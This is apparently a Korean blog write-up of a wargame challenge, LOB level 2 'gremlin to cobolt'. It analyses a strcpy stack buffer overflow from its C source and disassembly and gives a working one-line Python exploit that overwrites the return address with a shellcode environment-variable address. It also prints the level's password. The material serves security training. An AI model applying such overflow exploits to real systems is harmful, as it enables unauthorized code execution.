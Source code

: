 ```yaml
---
date: '2022-10-12'
before : '2022-10-11'
after : '2022-10-13'
title: 'FTZ LOB LEVEL 2'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


사실 이번 문제도.. 그냥 기본 BOF문제이다. 딱히 설명할 건 없어서 그냥 빠르게 풀이하도록 하겠다. 


모르는 걸 물어보는건 죄가 아니지만, FTZ 시리즈로 글을 쓴 것만 읽어봐도 "버퍼오버플로우가 뮈예요?" 같은 의문들은 해결된다고 생각한다..ㅠㅠ (나도 초보자중에 쌩초보다..)


### 1. Level 2 : Gremlin -> Cobolt

바로 소스코드와 어셈블리 코드를 분석해보자.

```
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
```

앗 그리고, LOB 환경에서는 우리가 주소를 쓸 떄 사용하는 \xff를 x00으로 인식해 버퍼오버플로우가 안되는 오류(는 아니고, 그냥 리눅스 서버 특정 버전의 특징이다.) 가 있다. 따라서 꼭 BOF 공격 코드를 넣기 전에 bash2명령어를 입력한 후 넣도록 하자!


이번에도 환경 변수는 사용 가능하니 EGG를 만들어서 주소를 확인하자.




환경 변수와 그에 따른 익스플로잇 : 
```
0xbffffdc2
./cobolt `python -c 'print "A"*20 + "\xfc\xfe\xff\xbf"'`
```

비밀번호 : hacking exposed

---
## Source

- 해커스쿨 FTZ
- Me!












